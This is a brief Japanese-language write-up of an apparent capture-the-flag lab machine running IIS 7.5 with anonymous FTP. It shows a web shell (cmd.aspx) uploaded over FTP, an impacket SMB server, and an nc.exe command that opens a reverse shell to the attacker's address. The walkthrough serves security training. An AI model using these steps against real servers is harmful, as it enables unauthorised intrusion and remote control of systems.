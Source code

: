 # Enumeration
- port 21 で anonymous login が許可された ftp
  - ログインすると、welcome.png がある
    ```
    ftp> dir
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    03-18-17  02:06AM       <DIR>          aspnet_client
    03-17-17  05:37PM                  689 iisstart.htm
    03-17-17  05:37PM               184946 welcome.png
    226 Transfer complete.
    ```
  - ここにファイルを置くとブラウザ等で閲覧可能
- port 80 で Microsoft IIS httpd 7.5
  - HTTP ヘッダを確認すると `X-powered-by: ASP.NET`
  - Web shell のアップロードにより shell が取れそう

# Eploitation
- `cmd.aspx` を置く
  - `ftp> put ~/tools/wordlists/SecLists/Web-Shells/FuzzDB/cmd.aspx cmd.aspx`
- `nc.exe` を使って reverse shell を張る
  - SMBを使えば、わざわざ置かなくてもいい
  - `sudo python3 ~/tools/impacket/examples/smbserver.py share .` でsmbサーバを立てる
  - `http://$IP/cmd.aspx` にアクセス
  - `\\10.10.14.23\share\nc.exe -e cmd.exe 10.10.14.23 12345`

